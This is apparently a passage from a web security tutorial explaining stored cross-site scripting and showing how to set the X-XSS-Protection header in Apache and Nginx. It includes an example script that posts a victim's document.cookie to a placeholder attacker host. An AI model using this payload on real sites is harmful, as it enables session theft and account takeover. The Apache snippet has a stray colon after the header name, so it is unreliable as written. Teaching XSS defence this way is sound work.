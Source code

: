 An example of this kind of attack is when an application does not validate user's input data and let the following kind of code in posted input (post, private message, etc...) displayed to other logged in users:

{% highlight html %}
<script type="text/javascript">
// attacker secretly sends back the user cookie to his server.
// The cookie can then be later used to login the attacked user's account without being noticed.
$.post('https://attacker-url.com', { cookie: document.cookie });
</script>
{% endhighlight %}

To prevent this from happening, you would need set ``X-XSS-protection`` header to be ``1; mode=block``

### Apache

Put this line inside your ``httpd.conf`` or relevant file:

{% highlight bash %}
<IfModule mod_headers.c>
  Header set X-XSS-protection: "1; mode=block"
</IfModule>
{% endhighlight %}

### Nginx

Put this line inside your ``sites-available`` nginx config file

{% highlight bash %}
add_header X-XSS-Protection "1; mode=block";
{% endhighlight %}

After adding the line, you can restart apache/nginx server and verify by reloading the page and check the response header. Make sure ``X-XSS-Protection`` setting match with what you have changed in your server configuration.


<p style='text-align:center;' markdown='1'><img src='/public/images/x_xss_protection_option.png' alt="X-XSS-Protection" style='display:inline;'/></p>
